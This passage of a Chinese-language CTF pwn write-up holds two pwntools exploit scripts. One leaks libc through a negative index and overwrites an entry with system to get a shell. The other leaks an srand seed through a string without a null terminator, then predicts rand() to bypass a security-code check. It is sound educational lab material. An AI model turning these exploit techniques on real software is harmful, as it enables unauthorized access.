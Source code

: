 ```py
    s.sendlineafter(b"id: ",str(idx).encode())
    s.sendafter(b"name: ",name)
dat=show(-17)
info(dat)
libc.address=u64(dat.ljust(8,b"\x00"))-libc.sym.puts
success(hex(libc.address))
edit(-11,p64(libc.sym.system)[:6])
menu(0x2023)
s.interactive()
```

## 字符串和随机数

> 碎碎念：本来是当第二个签到题放的，结果好像成了第二持久的题（
>
> 而且不知道各位是否注意到本题libc为debian 11.7 （因为ubuntu的编译出来种子位置不能接在第一个输入后面，也就没法带出来种子）

主要想介绍一下字符串以0结尾，以及只要拿到种子就可以生成一模一样的随机数。

第一个输入如果发满的话可以带出来随机数种子。

用ctypes里的cdll可以加载libc库并使用其中的函数。

具体见脚本吧。

```py
from pwn import *
from ctypes import cdll
context(arch='amd64', os='linux',log_level='debug')
#s=process("../dist/pwn")
s=remote("192.168.3.253",51001)
clib=cdll.LoadLibrary("../dist/libc.so.6")

if __name__=="__main__":
    #sleep(5)
    s.sendafter(b"Name: ",b"admin".ljust(0x20,b"a"))
    s.sendafter(b"Password: ",b"1s_7h1s_p9ss_7tuIy_sAf3?")
    s.recvuntil(b"admin".ljust(0x20,b"a"))
    seed=u32(s.recv(4))
    clib.srand(seed)
    arg1=clib.rand()^0xd0e0a0d0
    info(hex(arg1))
    arg2=clib.rand()^0x0b0e0e0f
    info(hex(arg2))
    chal=(arg1^arg2)%1000000
    info(hex(chal))
    s.sendlineafter(b"Wanna see it?",b"y")
    s.sendlineafter(b"Input the security code to continue: ",str(chal).encode())
    s.interactive()
```
